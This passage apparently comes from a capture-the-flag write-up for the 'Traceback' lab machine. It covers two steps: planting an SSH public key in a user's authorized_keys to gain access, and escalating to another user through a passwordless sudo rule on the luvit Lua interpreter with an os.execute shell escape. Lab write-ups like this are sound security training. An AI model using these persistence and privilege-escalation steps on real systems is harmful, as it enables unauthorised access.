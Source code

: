 We change directory for `/home/webadmin/`. We see that there is a
`.ssh/authorized_keys` file (maybe you need to create it if this doesn't exist,
as I used the public server the folder and the file already existed).
We add our public ssh key to the file and connect using ssh.

    :::text
    ssh 10.10.10.181 -lwebadmin
    The authenticity of host '10.10.10.181 (10.10.10.181)' can't be established.
    ECDSA key fingerprint is SHA256:7PFVHQKwaybxzyT2EcuSpJvyQcAASWY9E/TlxoqxInU.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.181' (ECDSA) to the list of known hosts.
    #################################
    -------- OWNED BY XH4H  ---------
    - I guess stuff could have been configured better ^^ -
    #################################

    Welcome to Xh4H land

    Last login: Thu Mar 26 01:09:32 2020 from 10.10.17.253
    webadmin@traceback:~$

# Getting user

In our home folder we found a note from sysadmin, the other system user about
some lua tool.

    :::text
    webadmin@traceback:~$ cat note.txt
    - sysadmin -
    I have left a tool to practice Lua.
    I'm sure you know where to find it.
    Contact me if you have any question.

Looking at our `sudo` right we have the possibility to execute `luvit` as
`sysadmin` without password.

    webadmin@traceback:~$ sudo -l
    Matching Defaults entries for webadmin on traceback:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User webadmin may run the following commands on traceback:
        (sysadmin) NOPASSWD: /home/sysadmin/luvit

We deduce that this is a lua interpreter and run some "Hello World".

    :::text
    webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit 
    Welcome to the Luvit repl!
    > print("Hello World")
    Hello World


    :::text
    webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
    $ id
    uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
